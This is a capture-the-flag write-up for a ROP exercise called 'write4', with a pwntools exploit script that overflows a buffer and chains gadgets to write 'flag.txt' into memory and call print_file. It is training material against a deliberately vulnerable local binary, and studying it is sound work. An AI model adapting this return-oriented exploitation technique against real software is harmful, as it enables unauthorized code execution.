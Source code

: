 # Challenge Theory
This is a rop challenge where the attacker has to write a string to memory in order to make the win function work. 
The win function simply reads out a file's contents, but does so with an argument.
# Solution
The attacker has to supply an argument to the function, which is actually a string.
This will be the file the print function actually reads from.
The rop chain would like:
```
pop r14, r15
mov [r14], r15
pop .data into rdi
call print_file
```
## Solution Source Code
```python
#!/usr/bin/python3
import pwn
import sys
binary = "write4"
pwn.context.binary = binary
pwn.context.encoding = "latin"

''' new exploit
put the values of .data start and flag.txt on the stack
pop r14, r15
mov [r14], r15
pop .data into rdi
call print_file
'''
write_location = pwn.p64(0x601028)
write_flag = b"flag.txt"
gadget_pop_r14_r15 = pwn.p64(0x400690)
gadget_mov_r14_r15 = pwn.p64(0x400628)
gadget_pop_rdi = pwn.p64(0x400693)
gadget_print_file = pwn.p64(0x400510)

padding = 40 
payload = b"A"*padding + gadget_pop_r14_r15 + write_location + write_flag + gadget_mov_r14_r15 + gadget_pop_rdi + write_location + gadget_print_file

if ("input" in sys.argv):
    with open("input", "wb") as io:
        io.write(payload)

if ("log" in sys.argv):
    pwn.context.log_level = "debug"

with pwn.process(binary) as io:
    pwn.info(io.readrepeat(1))
    io.send(payload)

    if ("interactive" in sys.argv):
        io.interactive()

    if ("output" in sys.argv):
        pwn.info(io.readrepeat(1))
```
